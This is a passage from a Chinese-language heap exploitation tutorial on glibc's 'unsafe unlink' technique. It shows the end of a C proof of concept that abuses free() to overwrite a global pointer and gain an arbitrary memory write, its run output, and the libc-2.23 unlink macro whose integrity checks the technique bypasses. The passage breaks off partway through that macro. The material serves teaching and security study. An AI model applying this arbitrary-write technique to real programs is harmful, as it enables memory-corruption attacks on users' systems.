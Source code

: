 ```c
    // int *a[10];
    // int i;
    // for (i = 0; i < 7; i++) {
    // 	a[i] = malloc(0x80);
    // }
    // for (i = 0; i < 7; i++) {
    // 	free(a[i]);
    // }
    free(chunk1_ptr);

    char victim_string[9];
    strcpy(victim_string, "AAAAAAAA");
    chunk0_ptr[3] = (uint64_t) victim_string;
    fprintf(stderr, "Original value: %s\n", victim_string);

    chunk0_ptr[0] = 0x4242424242424242LL;
    fprintf(stderr, "New Value: %s\n", victim_string);
}
```
```
$ gcc -g unsafe_unlink.c 
$ ./a.out 
The global chunk0_ptr is at 0x601070, pointing to 0x721010
The victim chunk we are going to corrupt is at 0x7210a0

Fake chunk fd: 0x601058
Fake chunk bk: 0x601060

Original value: AAAAAAAA
New Value: BBBBBBBB
```
这个程序展示了怎样利用 free 改写全局指针 chunk0_ptr 达到任意内存写的目的，即 unsafe unlink。该技术最常见的利用场景是我们有一个可以溢出漏洞和一个全局指针。

Ubuntu16.04 使用 libc-2.23，其中 unlink 实现的代码如下，其中有一些对前后堆块的检查，也是我们需要绕过的：
```c
/* Take a chunk off a bin list */
#define unlink(AV, P, BK, FD) {                                            \
    FD = P->fd;								      \
    BK = P->bk;								      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr (check_action, "corrupted double-linked list", P, AV);  \
    else {								      \
        FD->bk = BK;							      \
        BK->fd = FD;							      \
        if (!in_smallbin_range (P->size)				      \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {		      \
	    if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)	      \
		|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
	      malloc_printerr (check_action,				      \
			       "corrupted double-linked list (not small)",    \
			       P, AV);					      \
            if (FD->fd_nextsize == NULL) {				      \
                if (P->fd_nextsize == P)				      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;		      \
                else {							      \
                    FD->fd_nextsize = P->fd_nextsize;			      \
                    FD->bk_nextsize = P->bk_nextsize;			      \
                    P->fd_nextsize->bk_nextsize = FD;			      \
                    P->bk_nextsize->fd_nextsize = FD;			      \
                  }							      \
              } else {							      \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;		      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;		      \
              }								      \
```